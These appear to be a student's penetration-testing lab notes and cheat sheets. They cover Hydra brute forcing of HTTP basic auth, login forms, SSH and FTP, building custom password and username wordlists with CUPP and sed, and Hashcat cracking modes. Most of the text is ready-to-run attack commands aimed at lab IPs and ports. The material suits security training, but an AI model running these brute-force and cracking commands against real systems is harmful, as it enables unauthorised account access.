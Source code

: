 Login Attacks
======

Hydra
------
To install Hydra use command `apt install hydra -y` or download from its Github Repository `git clone https://github.com/vanhauser-thc/thc-hydra`

* password wordlists /opt/useful/SecLists/Passwords/
* username wordlists /opt/useful/SecLists/Usernames/
* https://github.com/danielmiessler/SecLists
* 
The most commonly used password wordlists is rockyou.txt, which has over 14 million unique passwords, sorted by how common they are. https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
/opt/useful/SecLists/Passwords/Default-Credentials
 ftp-betterdefaultpasslist.txt

Options	Description
-C ftp-betterdefaultpasslist.txt	Combined Credentials Wordlist
SERVER_IP	Target IP
-s PORT	Target Port
http-get	Request Method
/	Target Path

------Basic HTTP Auth Brute Forcing------
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 46.101.20.243 -s 32221 http-get /


locate names.txt

hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

static pw
hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /

 hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e

---Brute Forcing Forms----

Determine Login Parameters
We can easily find POST parameters if we intercept the login request with Burp Suite or take a closer look at the admin panel's source code.

Using Browser
One of the easiest ways to capture a form's parameters is through using a browser's built in developer tools. For example, we can open firefox within PwnBox, and then bring up the Network Tools with [CTRL + SHIFT + E].

Once we do, we can simply try to login with any credentials (test:test) to run the form, after which the Network Tools would show the sent HTTP requests. Once we have the request, we can simply right-click on one of them, and select Copy > Copy POST data:

Another option would be to used Copy > Copy as cURL, which would copy the entire cURL command, which we can use in the Terminal to repeat the same HTTP request:


curl 'http://178.128.40.63:31554/login.php' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.40.63:31554' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://178.128.40.63:31554/login.php' -H 'Cookie: PHPSESSID=8iafr4t6c3s2nhkaj63df43v05' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'username=test&password=test'


hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

hydra -l user -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 46.101.20.243 -s 32221 http-post-form "/admin_login.php:username=^USER^&password=^PASS^:F=<form name='login'"

curl 'http://46.101.20.243:32221/admin_login.php' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://46.101.20.243:32221' -H 'DNT: 1' -H 'Authorization: Basic dXNlcjpwYXNzd29yZA==' -H 'Connection: keep-alive' -H 'Referer: http://46.101.20.243:32221/admin_login.php' -H 'Cookie: PHPSESSID=hd495gtp1gu278ifim02kahvom' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'user=&pass='
Have to find verriables of USERNAME/PASSWORD , form name, ip and port, login page. 


SSH Attack
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
netstat -antp | grep -i list
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
ftp 127.0.0.1


CUPP
sudo apt install cupp or clone it from the Github repository
https://github.com/Mebus/cupp
cupp -i
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers


Custom Username Wordlist
git clone https://github.com/21y4d/usernameGenerator.git
bash usernameGenerator/usernameGenerator.sh 
bash usernameGenerator/usernameGenerator.sh Bill Gates

Hydra
Command	Description
hydra -h	hydra help
hydra -C wordlist.txt SERVER_IP -s PORT http-get /	Basic Auth Brute Force - Combined Wordlist
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /	Basic Auth Brute Force - User/Pass Wordlists
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"	Login Form Brute Force - Static User, Pass Wordlist
hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4	SSH Brute Force - User/Pass Wordlists
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1	FTP Brute Force - Static User, Pass Wordlist
Wordlists
Command	Description
/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt	Default Passwords Wordlist
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt	Common Passwords Wordlist
/opt/useful/SecLists/Usernames/Names/names.txt	Common Names Wordlist
Misc
Command	Description
cupp -i	Creating Custom Password Wordlist
sed -ri '/^.{,7}$/d' william.txt	Remove Passwords Shorter Than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt	Remove Passwords With No Special Chars
sed -ri '/[0-9]+/!d' william.txt	Remove Passwords With No Numbers
git clone https://github.com/21y4d/usernameGenerator.git	Download usernameGenerator
bash usernameGenerator/usernameGenerator.sh <First Name> <Last Name>	usernameGenerator Usage
ssh b.gates@SERVER_IP -p PORT	SSH to Server
ftp 127.0.0.1	FTP to Server
su - user	Switch to User

Encryption

Generate an MD5 hash
echo -n "p@ssw0rd" | md5sum

Create the XOR ciphertext
python3
from pwn import xor 
xor("p@ssw0rd", "secret")

 pip install hashid	Install the hashid tool
sudo apt install hashcat or get from Git https://github.com/hashcat/hashcat

hashid '$DCC2$10240#tom#e4e938d12fe5974dc42a90120bd9c90f' -m

 hash types and their corresponding examples can be found here
https://hashcat.net/wiki/doku.php?id=example_hashes


CRACKING PASSWORDS WITH HASHCAT
cheat sheet
Command	Description
 pip install hashid	Install the hashid tool
hashid <hash> OR hashid <hashes.txt>	Identify a hash with the hashid tool
hashcat --example-hashes	View a list of Hashcat hash modes and example hashes
hashcat -b -m <hash mode>	Perform a Hashcat benchmark test of a specific hash mode
hashcat -b	Perform a benchmark of all hash modes
hashcat -O	Optimization: Increase speed but limit potential password length
hashcat -w 3	Optimization: Use when Hashcat is the only thing running, use 1 if running hashcat on your desktop. Default is 2
hashcat -a 0 -m <hash type> <hash file> <wordlist>	Dictionary attack
hashcat -a 1 -m <hash type> <hash file> <wordlist1> <wordlist2>	Combination attack
hashcat -a 3 -m 0 <hash file> -1 01 'ILFREIGHT?l?l?l?l?l20?1?d'	Sample Mask attack
hashcat -a 7 -m 0 <hash file> -1=01 '20?1?d' rockyou.txt	Sample Hybrid attack
crunch <minimum length> <maximum length> <charset> -t <pattern> -o <output file>	Make a wordlist with Crunch
python3 cupp.py -i	Use CUPP interactive mode
kwp -s 1 basechars/full.base keymaps/en-us.keymap routes/2-to-10-max-3-direction-changes.route	Kwprocessor example
cewl -d <depth to spider> -m <minimum word length> -w <output wordlist> <url of website>	Sample CeWL command
hashcat -a 0 -m 100 hash rockyou.txt -r rule.txt	Sample Hashcat rule syntax
./cap2hccapx.bin input.cap output.hccapx	cap2hccapx syntax
hcxpcaptool -z pmkidhash_corp cracking_pmkid.cap	hcxpcaptoolsyntax
